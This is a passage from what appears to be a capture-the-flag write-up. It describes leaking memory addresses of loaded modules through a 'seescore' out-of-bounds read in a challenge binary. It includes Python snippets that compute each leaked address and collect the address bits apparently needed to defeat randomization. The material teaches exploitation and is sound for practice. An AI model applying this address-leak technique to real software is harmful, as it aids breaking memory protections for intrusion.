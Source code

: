 The address begining with `0x5750` is address of `basic.o` so we have the following script:

```python
basic_o = seescore( int(((game_o - 0x1000) - main_o)/8) + 1 ) & 0xfffffffffffff000
```

Let's search for the next address begining with `0x6990`:

![search-pattern-0x6990.png](images/search-pattern-0x6990.png)

The address `0xacd0002000` might contain address begining with `0x6990`:

![fifth-leak.png](images/fifth-leak.png)

So the script for this is:

```python
res_o = seescore( int(((game_o + 0x1000) - main_o)/8) ) & 0xfffffffffffff000
```

Next, we will find the address begining with `0xa9a0`:

![search-pattern-0xa9a0.png](images/search-pattern-0xa9a0.png)

And that address is the address of `guard.o` which containing address of `syscalls.o`:

![sixth-leak.png](images/sixth-leak.png)

And the script is:

```python
syscalls_o = seescore( int(((guard_o - 0x1000) - main_o)/8) + 1 ) & 0xfffffffffffff000
```

With the seventh address, we cannot find any place containing that so maybe just 6 is enough.

Now with the known result, just put it into and array first with order:

```python
known_states = [0]*6
known_states[0] = main_o >> 28
known_states[1] = syscalls_o >> 28
known_states[2] = guard_o >> 28
known_states[3] = basic_o >> 28
known_states[4] = game_o >> 28
known_states[5] = res_o >> 28
```
